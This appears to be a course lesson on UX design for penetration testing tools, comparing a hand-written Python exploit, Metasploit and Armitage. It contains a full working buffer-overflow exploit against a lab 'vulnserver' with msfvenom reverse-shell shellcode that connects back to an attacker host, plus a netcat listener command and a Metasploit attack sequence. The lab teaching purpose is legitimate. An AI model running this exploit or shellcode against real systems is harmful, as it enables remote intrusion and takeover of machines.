

# Keep it Simple

We are going to first talk about what is UX design.
UX refers to user experience. 
Then we will talk about how we design our penetration testing tool and why we like Armitage.

## UX Design Overview

### UX Design
UX design, the user experience design, is very important.
Think about this.
Before iPhone, there were so many other phones.
However, when iPhone came out, it dominated the market.
Why?
It is because iPhone put mp3 player, video streaming, email, and
Internet all together *nicely*.
Before iPhone there were a few other products like personal digital assistant (PDA), which tried to do something like that.
However, their interface was not so nice.
The user experience on those products was not such good.
It was often hard to find some functionalities.
You have to go through a lenthy procedure to do something.
iPhone was a game chager.
When you use iPhone, you find a functionality easily.
iPhone's user experience design is just good.

So user experience design is critical for a product's success.
The user shall have a meaningful and relevant experience with a design.
You can do your work with the product easily and efficiently.

### Simplicity

One philosophy in user experience design is simplicity.
Some software programs are very complicated and hard to use.
Are you going to use such a software program if nobody really pushes you to use it?
No oif course.
That's why simplicity is an important design philosophy.

When you design your product or your app,
if you want people to use it, people shouldn't go through
a very complicated procedure to use a feature.
They shall be able to use your product and achieve their goals easily and quickly.
They shall enjoy the experience.

People now use smartphones for everything, e.g., video streaming and browsing.
Although the screen is small, it is convenient in many cases.
The design of smartphones makes these things much easier than before.
That is why people now are watching movies even on smartphones.

### UXD in CyberSecurity
Let's look at one example, penetration testing.
Assume you are a vendor and wants to sell a penetration testing tool.
How do you design your tool?
If you make your penetration testing tool very complicated, what will happen?
Of course you will lose the market because nobody wants to use the tool.

Here are the requirements for UXD in cyber security.
Many cyber security hardware and software programs are very hard to use.
I think we still need to do a lot of things to improve the design of the equipment and tools.
One critical advance in cyber security of recent years is user authentication.
When you use iPhone amd Android phones, 
what is the authentication method for unlocking the smartphone screen?
Passcode, face ID or touch ID?
Face ID and touch ID are getting popular since they are pretty secure to some context, very convinient, and easy to use, compared with passcode.

## Penetration Testing Tool UX Design
### Goal of Penetration Testing Tools
Why do we need a penetration testing tool?
What is the goal of using a penetration testing tool?
Such a tool will be used by penetration testers, who may scan the web,
network and computers to test if anything is not secure.

Here are a few concepts, confidentiality, integrity and availability (CIA).
What is confidentiality? It means you don't want your secret
messages to be known to other people.
For example, encryption encrypts ypur messages and provides confidentiality.
What is integrity? 
integrity means if somebody changes your files you should
be able to find they are changed.
Availability means when you
actually want to use a service, it should be up, running and providing the service.

Penetration testing help achieve CIA.
It will identify vulnerabilities, which may impact the CIA.
That's why we need such tool.

### Design Choices
The problem is how you can implement the tool?
Here are three options:
- Programing a tool
- Using Metasploit
- Using Armitage

### Method 1. Programing a Tool
You are a programming guru. You tell your customer: It's easy; just
use python to program a tool? Here are the programming documents. 
So you sell you this brochure on how to program a penetration testing tool.

Below is example Python code attacking our vulnerable chat server.
If it succeeds, vchat is not patched and vulerable.
So the code is kind of a testing tool.
To program the Python code, you need know general Python, socket library, struct library, the vulnerability and how to use a metasploit tool called msfvenom to generate the malware code. The code has heavy comments. You can read it to have an idea of such programming.

```
# To receive the reverse shell, run the following command at another terminal
#   nc -l -v -p 4444
# This module "socket" provides access to the BSD socket interface
import socket
# This module "struct" performs conversions between Python values
# and C structs represented as Python bytes objects.
import struct

HOST = '10.0.2.7'   # vitcim IP
PORT = 9999         # victim port

# Shellcode created by msfvenom
# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.8 LPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0a' 
SHELL =  b""
SHELL += b"\xba\xb7\x9a\xd6\x72\xd9\xea\xd9\x74\x24\xf4\x5e"
SHELL += b"\x29\xc9\xb1\x52\x83\xc6\x04\x31\x56\x0e\x03\xe1"
SHELL += b"\x94\x34\x87\xf1\x41\x3a\x68\x09\x92\x5b\xe0\xec"
SHELL += b"\xa3\x5b\x96\x65\x93\x6b\xdc\x2b\x18\x07\xb0\xdf"
SHELL += b"\xab\x65\x1d\xd0\x1c\xc3\x7b\xdf\x9d\x78\xbf\x7e"
SHELL += b"\x1e\x83\xec\xa0\x1f\x4c\xe1\xa1\x58\xb1\x08\xf3"
SHELL += b"\x31\xbd\xbf\xe3\x36\x8b\x03\x88\x05\x1d\x04\x6d"
SHELL += b"\xdd\x1c\x25\x20\x55\x47\xe5\xc3\xba\xf3\xac\xdb"
SHELL += b"\xdf\x3e\x66\x50\x2b\xb4\x79\xb0\x65\x35\xd5\xfd"
SHELL += b"\x49\xc4\x27\x3a\x6d\x37\x52\x32\x8d\xca\x65\x81"
SHELL += b"\xef\x10\xe3\x11\x57\xd2\x53\xfd\x69\x37\x05\x76"
SHELL += b"\x65\xfc\x41\xd0\x6a\x03\x85\x6b\x96\x88\x28\xbb"
SHELL += b"\x1e\xca\x0e\x1f\x7a\x88\x2f\x06\x26\x7f\x4f\x58"
SHELL += b"\x89\x20\xf5\x13\x24\x34\x84\x7e\x21\xf9\xa5\x80"
SHELL += b"\xb1\x95\xbe\xf3\x83\x3a\x15\x9b\xaf\xb3\xb3\x5c"
SHELL += b"\xcf\xe9\x04\xf2\x2e\x12\x75\xdb\xf4\x46\x25\x73"
SHELL += b"\xdc\xe6\xae\x83\xe1\x32\x60\xd3\x4d\xed\xc1\x83"
SHELL += b"\x2d\x5d\xaa\xc9\xa1\x82\xca\xf2\x6b\xab\x61\x09"
SHELL += b"\xfc\xde\x75\x13\xf4\xb6\x77\x13\x15\x1b\xf1\xf5"
SHELL += b"\x7f\xb3\x57\xae\x17\x2a\xf2\x24\x89\xb3\x28\x41"
SHELL += b"\x89\x38\xdf\xb6\x44\xc9\xaa\xa4\x31\x39\xe1\x96"
SHELL += b"\x94\x46\xdf\xbe\x7b\xd4\x84\x3e\xf5\xc5\x12\x69"
SHELL += b"\x52\x3b\x6b\xff\x4e\x62\xc5\x1d\x93\xf2\x2e\xa5"
SHELL += b"\x48\xc7\xb1\x24\x1c\x73\x96\x36\xd8\x7c\x92\x62"
SHELL += b"\xb4\x2a\x4c\xdc\x72\x85\x3e\xb6\x2c\x7a\xe9\x5e"
SHELL += b"\xa8\xb0\x2a\x18\xb5\x9c\xdc\xc4\x04\x49\x99\xfb"
SHELL += b"\xa9\x1d\x2d\x84\xd7\xbd\xd2\x5f\x5c\xdd\x30\x75"
SHELL += b"\xa9\x76\xed\x1c\x10\x1b\x0e\xcb\x57\x22\x8d\xf9"
SHELL += b"\x27\xd1\x8d\x88\x22\x9d\x09\x61\x5f\x8e\xff\x85"
SHELL += b"\xcc\xaf\xd5"

# Payload to inject into vulnserver
PAYLOAD = (
    b'KNOCK /.:/' +  # TRUN command of the server
    b'A' * 2002 +   # padding 
    # 62501205   FFE4             JMP ESP
    # Return a bytes object.
    # Format string '<L': < means little-endian;
    # L means unsigned long
    struct.pack('<L', 0x6250151C) + 
    b'C' * 32 +
    SHELL
    # b'C' * (5000 - 2003 - 4 - 32 - len(SHELL)) # no need really
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

Apparently, a lot of training is need to program the Python code. Asking customers to program a tool is non-sense.
This is the worst way of helping customers in penetration testing.

### Using metasploit

Actually, we can use Metasploit to do the exactly same thing.
Basically, you tell your customers the sequene of Metasploit commands 

Let’s assume somebody created the attack module for Metasploit, i.e., exploit/windows/vulnserver/knock.
The attack module is written in Ruby and the code is very similar to the Python code above.
Below is the sequence of Metasploit commands to perform the attack, i.e., penetration testing.

1. msf6 > use exploit/windows/vulnserver/knock
2. [\*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
3. msf6 exploit(windows/vulnserver/knock) > set RHOSTS 192.168.1.19
4. RHOSTS => 192.168.1.19
5. msf6 exploit(windows/vulnserver/knock) > set TARGET 0
6. TARGET => 0
7. msf6 exploit(windows/vulnserver/knock) > set LHOST 192.168.1.4
8. LHOST => 192.168.1.4
9. msf6 exploit(windows/vulnserver/knock) > set LPORT 19521
10. LPORT => 19521
11. msf6 exploit(windows/vulnserver/knock) > set PAYLOAD windows/meterpreter/bind_tcp
12. PAYLOAD => windows/meterpreter/bind_tcp
13. msf6 exploit(windows/vulnserver/knock) > set RPORT 9999
14. RPORT => 9999
15. msf6 exploit(windows/vulnserver/knock) > exploit -j

Here is the explanation to the commands
At line 1, we specify the use of the knock exploit.
Line 2 is the response when we enter the command at line 1.
At line 3, we set the remote host that's the target with the IP address 192.168.19.
Line 4 is the response from Metasploit.
At line 5, we set the target. An explot may have a few targets since the victim program may have a few issues.
Within the Ruby code of the exploit module, we can use different options for different targets.
We just one target zero.
At lines 7 and 9, we set the local host IP and port, which will be by Measploit to perform the attack from the local machine.
At line 11, we set the payload of the exploit.
At line 13, we set the port of the target service on the remote host.
Finally at line 15, we run the exploit.

Really here we get a lot of commands, which could be confusing.
Non-experienced pen testers will be overwhelmed.

### Method 3. Using Armitage

The third approach is use the penetration testing tool, Armitage, which has a nice graphical user interface (GUI) as shown below.
You provide all the modules and your customers just use Armitage and launch the attacks.
A few clicks are needed to perform the penetration testing.
The only issue of Armitage is not stable and well coded.
Sometimes, we know the vulnerability is over there on the target.
But we have to try quite a few times to succeed.
It does not show really useful error messages when it does not work well.
A vulnerability is exploited, Armitage shows post-exploitation options.



Learning Armitage is much simpler than learning Metasploit.
The goal of a pen tester is to find vulnerabilities on computers.
There is no point to ask them to learn programming and program a tool.
Learning Metasploit is much harder because of its black and white console interface.
The graphical user interface (GUI) of Armitage makes all things simpler.
It is a good design for good user experience although I wish it is more stable.

## Summary
When you design a product, you have to think about the customers, who are humans.
they just want to finish their goal and
You have to help customers achieve their goals effienciently with good experience.
You have to think about how to make everything simpler for them.
UX design is hard since we are talking about humans.
Psychology knowledge and data analysis techniques are often needed to understand what customers need.
For example, you may perform surveys and interviews and process the collected data to see what people like.

## References
1. <a href="https:// www.interaction-design.org/">Interaction Design Foundation (IxDF) Website</a>
